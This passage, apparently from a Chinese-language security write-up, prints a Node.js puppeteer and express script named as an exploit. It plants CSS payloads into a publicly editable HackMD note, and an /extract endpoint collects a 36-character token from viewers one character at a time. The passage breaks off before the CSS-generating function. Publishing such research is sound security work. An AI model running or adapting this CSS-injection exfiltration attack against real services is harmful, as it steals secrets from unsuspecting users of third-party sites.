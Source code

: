 程式碼如下：

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

```